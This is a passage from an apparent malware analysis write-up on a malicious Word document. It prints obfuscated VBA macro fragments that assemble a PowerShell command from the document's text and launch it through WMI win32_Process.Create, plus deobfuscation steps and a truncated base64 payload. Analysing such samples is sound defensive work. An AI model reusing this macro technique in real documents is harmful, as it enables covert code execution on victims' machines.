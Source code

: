 ```visual-basic
End Function

Function Dlhbagxwt5vvo7ur()
On Error Resume Next
Bg6i7gcz1j38udj0 = S88ecjif1ml6.Content.Text
Ah_ap6yelik = Right(Bg6i7gcz1j38udj0, Len(Bg6i7gcz1j38udj0) - 1)
Dlhbagxwt5vvo7ur = Jc1yuw7r38_4a5("POWeRsHe" + Ah_ap6yelik)
End Function

```

The funct `Jc1yuw7r38_4a5` just split param with delimeter `“, A :”` and join them all, same as remove all `“, A :”` in string param. with above given param, we obtain return val is "winmgmts:win32_Process”. After that:

```visual-basic
Function Xy1ql8qq3m9fwoxvz()
On Error Resume Next
Set Ioyv20u9cnhfyah = CreateObject("winmgmts:win32_Process")
Set Mmxw9h87r6ne0q_n5 = Jgcwzg_v1lujky5("winmgmts:win32_ProcessstartuP")
Ioyv20u9cnhfyah.Create Dlhbagxwt5vvo7ur, Crdajectd75a_ze, Mmxw9h87r6ne0q_n5
End Function
```

It creats a win32_process object, then **Create** method of the win32_process is being called, with argument `Dlhbagxwt5vvo7ur` is a function in the bottom of code. In this function, the VBA stream `S88ecjif1ml6` has been use to get content from the word document.

```visual-basic
Bg6i7gcz1j38udj0 = S88ecjif1ml6.Content.Text
```

```visual-basic
strings -n 400 maldoc.doc > strings_.txt
λ python
>>> fin = open("strings_.txt", "r")
>>> buf = fin.read()
>>> fin.close()
>>> buf = buf.replace(", A :", "")
>>> fout = open("res_.txt", "w")
>>> fout.write(buf)
>>> fout.close()
```

res_.txt. with `-ENCOD` , that look like base64 encoded payload

```
LL -ENCOD
JABQAGgAYQA5AG4AOABzAD0AKAAnA...
```

Use cyberchef to decode the payload.  After decode from base64 and remove all null byte, we use the follow recipes :

```python
payload.replace("')+('","").replace("'+'", "").replace("`", "").replace("'+('", "").replace("')+'", "").replace(";", "\n")
```
